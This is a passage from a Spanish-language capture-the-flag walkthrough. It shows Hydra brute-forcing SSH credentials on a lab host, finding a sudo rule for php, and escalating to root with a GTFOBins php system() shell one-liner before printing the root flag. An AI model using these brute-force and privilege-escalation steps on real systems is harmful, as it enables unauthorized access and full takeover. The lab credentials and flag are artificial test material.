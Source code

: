 Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-13 11:21:07
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 676 login tries (l:1/p:676), ~11 tries per task
[DATA] attacking ssh://172.19.0.2:22/
[STATUS] 419.00 tries/min, 419 tries in 00:01h, 290 to do in 00:01h, 31 active
[22][ssh] host: 172.19.0.2   login: an0n1mat0   password: soyanonymous
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 15 final worker threads did not complete until end.
[ERROR] 15 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-13 11:22:48
```

Por lo que vemos nos saca las credenciales, por lo que volveremos a la terminal y ahora si haremos `sudo -l`, meteremos la contraseña obtenida por `hydra` y veremos lo siguiente.

```
Matching Defaults entries for an0n1mat0 on 63ccda3ff003:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User an0n1mat0 may run the following commands on 63ccda3ff003:
    (ALL : ALL) /bin/php
```

Por lo que podremos ejecutar el binario de `php` como `root`, haremos lo siguiente.

URL = https://gtfobins.github.io/gtfobins/php/#sudo

```shell
CMD="/bin/bash"
sudo php -r "system('$CMD');"
```

Y con esto ya seriamos `root`, por lo que leeremos la flag.

```shell
cd /root
cat root.txt
```

> root.txt

```
2d264e1f92a8230d442750d69fba4cc5
```
